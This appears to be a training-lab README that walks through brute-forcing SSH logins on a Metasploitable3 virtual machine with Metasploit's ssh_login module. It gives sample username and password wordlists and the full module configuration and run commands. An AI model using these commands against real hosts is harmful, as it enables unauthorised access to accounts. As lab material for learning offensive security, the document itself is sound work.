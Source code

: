 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)










